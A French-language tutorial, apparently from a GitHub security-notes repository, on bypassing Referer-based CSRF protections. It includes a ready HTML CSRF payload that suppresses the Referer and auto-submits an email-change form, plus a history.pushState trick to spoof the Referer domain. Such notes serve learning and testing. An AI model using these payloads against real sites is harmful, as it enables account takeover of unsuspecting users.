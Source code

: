 # Contourner les défenses CSRF basées sur les `Referer`

En plus des tokens CSRF, certaines applications utilise l'en-tête HTTP `Referer` pour se protéger des attaques CSRF, en vérifiant que la requête provient du lpele domaine que l'application en question.
### Header `Referer`
Le header HTTP `Referer` est un en-tête de requête facultatif qui contient l'URL de la page Web liée à la ressource demandée.

Il est généralement ajouté automatiquement par les navigateurs lorsqu'un utilisateur déclenche une requête HTTP, notamment en cliquant sur un lien ou en soumettant un formulaire. Il existe diverses méthodes de modifier la valeur de l'en-tête Referer. Ceci est souvent fait pour des raisons de confidentialité

## La validation du `Referer` dépend de la présence du header
Certaines applications valident le header `Referer` lorsqu'il est présent dans les requêtes mais ignorent la validation s'il est omis.

On peut alors créer un payload qui va forcer le navigateur de la victime à jeter le header `Referer` dans la requête.
Il existe de nombreuses manières de faire mais la plus simple est d'utiliser la balise `meta` de la manière suivante :
`<meta name="referrer" content="never">`

Template HTML de payload :
```
<html>
    <body>
    <meta name="referrer" content="never">
        <form action="https://vulnerableWebsite/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="CCCC@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Bypass de la validation du `Referer`

Certaines applications valide le header `Referer` d'une manière naive qui peut être bypass. Par exemple, elles peuvent vérifier que le domaine dans le header commence apr une certaine valeur, ou seulement contient le nom de domaine de l'application.

L'attaquant peut mettre en place dans le `Referer` le nom de domaine de l'application dans la query string par exemple :
`http://attacker-website.com/csrf-attack?vulnerable-website.com`
Pour cela, on peut utiliser la méthode JS `history.pushState()` de la manière suivante :
```javascript
history.pushState("", "", "/?vulnerable-website.com")
```
